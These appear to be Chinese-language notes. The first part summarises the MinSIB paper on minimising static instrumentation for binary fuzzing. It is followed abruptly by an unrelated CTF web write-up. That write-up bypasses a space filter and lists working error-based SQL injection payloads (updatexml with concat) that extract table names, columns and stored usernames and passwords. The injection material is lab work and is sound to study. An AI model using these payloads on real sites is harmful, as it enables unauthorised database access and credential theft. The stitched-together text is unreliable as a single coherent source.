

# MinSIB: Minimized static instrumentation for fuzzing binaries

## 工作摘要

该论文的主要思路是通过减少插桩点来提升Fuzz的效率

首先提出了三种优化方法来减少要插桩的基本块数量

1. 选择特定的函数
2. 生成最优代码路径覆盖
3. 提取最小化基本块

接着提出了MiniSIB算法进一步减少了插桩点，并且实现了一种稳定、可靠、高效的二进制重写方法。

## 论文思路

### 选择特定的函数

首先使用Asm2vec模型提取函数的特征向量，对检测项目中的函数进行特征匹配。同时为了针对大型函数特征数据库做出了优化，将所有函数按大小排序，然后使用二分法加块匹配速度。

提取函数的特征向量后首先会过滤掉标准库的函数，然后就是选取感兴趣的函数。

为此本文以一个或多个函数为起点函数将与之有关联的函数进行标记作为感兴趣的函数。函数之间的调用或被调用的关系即为函数之间的关联，所以，如果函数之间存在调用关系，则可以将函数视为一个组。通过将每个函数$f$记录为$FCG$中的一个节点，可以将调用关系视为$FCG$中的一条有向边。因此，$FCG$可以定义为：$FCG =（V,\vec{E}）$，顶点集$V$包含所有函数，边集$\vec{E}$指示它们的调用关系。

调用关系可以分为三种，分别为祖先、子孙、兄弟关系。本研究在原始值的基础上确定了各种亲属关系的加权系数。对于指定的起点函数，可以以较低的成本计算其他函数的亲属系数，并且可以通过选择不同的阈值来容易地控制感兴趣的函数的数量。

### 生成最优代码覆盖路径

该生成算法由两个阶段组成：提取BBoI（兴趣基本块）和通过CFG生成OptCPC（最优代码覆盖路径）

#### 提取BBoI

以为Fuzz主要针对内存漏洞，因此该方法根据指令类型和指令的地址类型构建了指令与内存相关性的评估表，以此来得到指令的内存相关分数，并根据基本块所有指令的分数和阈值$\tau$来决定是否标记为BBoI，计算基本块内存相关分数的计算公式如下：

$$
\lambda=\sum_{k=1}^{|b|}Score(in_k)
$$

即基本块的最终得分是所有指令的总和。

函数$f$的兴趣基本块被定义为：

$$
B_f^*=\lbrace b|b∈B_f\wedge\lambda_b\geq\tau\rbrace
$$

$B_f$表示函数f的基本块的集合，并且$\tau$表示兴趣的阈值。函数的其余基本块，称为非兴趣的基本块，定义为：

$$
B_f^-=B_f-B_f^*
$$

#### 通过CFG生成OptCPC

执行路径$p$包含一组按顺序排列的基本块。如下图所示，函数$f_a$具有两个执行路径： $p_1 = \lbrace{b_1 → b_2 → b_4 }\rbrace$  和  $p_1 = \lbrace{b_1 → b_3 → b_4 }\rbrace$ 。 

但是当CFG中存在循环时执行路径的数量在理论上就是无限的。CPC是对于一个函数执行路径的扩展，就是为了解决循环路径而提出的，它将路径定义为一组离散的点，CPC被定义为

$$
\mathcal{P}=\lbrace b|b∈p\rbrace
$$

如下图所示，循环路径可以定义为一个CPC：$\mathcal{P}_b=\lbrace{b_1,b_2,b_3,b_4}\rbrace$。

所有可能的CPC构成的CPC集合定义为：

$$
\mathbb{P}_f=\lbrace\mathcal{P}_p|p∈f\rbrace
$$

生成CPC集合的算法如下图所示

感兴趣的基本块的集合 $B_f^*$ 的CPC即OptCPCs被定义为：

$$
\mathbb{P}_{opt}=\lbrace\mathcal{P}|\mathcal{P}∈\mathbb{P}_f\wedge\mathcal{P}\subseteq B_f^*\rbrace
$$

# Web

我们打开之后发现和之前做的差不多直接在密码的位置进行注入

然后用BurpSuite检查下过滤，发现很多都被过滤了，然后挨个实验发现是过滤了空格，那么我们就可以用()进行绕过

我们尝试注入后发现，该网页会回显报错消息，所以我们改用报错注入

用**1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#**来获取数据库名

用**1'or(updatexml(1,concat(0x7e,(select(table_name)from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))#**获取表名

再用**1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#**获取列名

最后用**1'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))#**爆出一半flag

改一下变成**1'or(updatexml(1,concat(0x7e,(select(right(password,35))from(H4rDsq1)),0x7e),1))#**即可获得完整flag